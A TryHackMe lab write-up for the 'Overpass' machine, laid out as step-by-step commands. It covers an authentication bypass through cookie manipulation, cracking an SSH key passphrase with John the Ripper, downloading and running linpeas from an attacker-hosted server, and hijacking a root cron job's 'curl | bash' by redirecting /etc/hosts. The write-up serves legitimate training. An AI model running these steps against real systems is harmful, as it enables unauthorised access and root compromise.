 ```yaml
---
title: "Overpass"
author: "Divyanshu Sharma"
date: 2022-10-28
permalink: /tryhackme/overpass
tags: tryhackme
---
```

## **Machine IP**
> 10.10.161.104

## Inference
1. Found http and ssh running on the machine.
2. Used gobuster to find directories on the ip and found an admin portal.
3. The admin portal is using a javascript in backend to communicate the server.
4. Changed the javascript file `Cookies.set("SessionToken",statusOrCookie)` to `Cookies.set("SessionToken","")`, this will change the cookie to desired admin-cookie. 
5. We are in.
6. Page shows private RSA Key which is  a SSH Key.
7. We will copy the complete key and save it as `id_rsa`.
8. Then we will convert in into hash by 
```console
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
9. Then we will crack the hash by 
```console
john --wordlist=/usr/share/wordlist/rockyou.txt id_rsa.hash
```
10. Found the password *james13*.
11. Used the key to login by 
```
chmod 600 id_rsa && ssh -i id_rsa john@10.10.161.104
```
12. We are in and got user flag in `user.txt`.
13. We will download linpeas on aur host machine by 
```console
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```
and will roll up a python https server in the same directory by 
```console
python3 -m http.server
```
14. Then we will download linpeas with 
```console
wget http://{your ip}:8000/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
```
15. Found a cron job which can download any script we want as **ROOT** `curl overpass.thm/downloads/src/buildscript.sh | bash`.
16. So we will create a fake buildscript.sh in `downloads/src/buildscript.sh` and add 
```console
cat /root/root.txt > /home/john/stuff.txt
```
script in buildscript.sh. 
17. We will update overpass.thm to our ip in `/etc/hosts`. 
18. Then we will run up new server in directory with `downloads/src/buildscript.sh`.
19. Read stuff.txt in `/home/james` and that is the root.txt.
